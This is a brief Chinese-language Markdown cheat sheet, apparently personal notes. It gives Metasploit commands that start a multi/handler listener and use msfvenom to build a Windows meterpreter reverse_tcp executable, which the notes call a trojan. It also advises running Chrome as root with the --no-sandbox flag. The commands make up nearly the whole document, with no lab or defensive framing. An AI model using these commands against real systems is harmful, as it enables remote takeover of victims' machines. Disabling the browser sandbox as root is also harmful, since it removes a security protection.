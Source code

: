 ## msfconsole
use multi/handler
set LHOST IP
set LPORT 端口
exploit
开始监听

## msfvenom
`-l payloads` 回显所有可生成的木马
`-p windows/meterpreter/reverse_tcp LHOST=IP LPORT=端口 -f exe -o 路径` 可以在 msfconsole 中使用

## root 用户
`/opt/google/chrome/google-chrome`

最后一行添加 `--no-sandbox`

<!--stackedit_data:
eyJoaXN0b3J5IjpbMTI0MjQyMjUxNiwxODg4MTAxODgxLDczNT
E2NDc1Ml19
-->